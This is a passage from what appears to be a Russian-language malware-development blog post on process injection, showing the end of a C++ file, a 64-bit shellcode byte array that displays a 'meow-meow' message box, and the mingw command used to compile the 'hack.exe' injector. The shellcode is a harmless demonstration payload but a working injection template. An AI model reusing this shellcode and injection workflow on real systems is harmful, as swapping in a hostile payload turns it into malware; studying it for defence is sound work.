 ```cpp
  return 0;
}
```


Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демо

Давайте посмотрим, как всё работает. Компилируем наш пример:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ \
-I/home/.../cybersec_blog/2022-01-24-malware-injection-15/ \
-s -ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![compile](./images/37/2022-01-27_01-15.png){width="80%"}    

